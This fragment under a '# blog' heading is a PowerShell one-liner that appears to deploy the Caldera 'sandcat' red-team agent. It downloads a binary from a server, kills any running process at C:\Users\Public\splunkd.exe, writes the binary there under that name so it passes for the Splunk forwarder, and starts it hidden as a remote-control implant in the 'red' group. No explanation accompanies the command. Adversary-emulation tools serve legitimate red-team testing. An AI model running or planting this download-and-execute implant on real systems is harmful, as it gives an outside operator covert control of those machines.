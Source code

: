 # blog
$server="http://0.0.0.0:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
get-process | ? {$_.modules.filename -like "C:\Users\Public\splunkd.exe"} | stop-process -f;
rm -force "C:\Users\Public\splunkd.exe" -ea ignore;
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
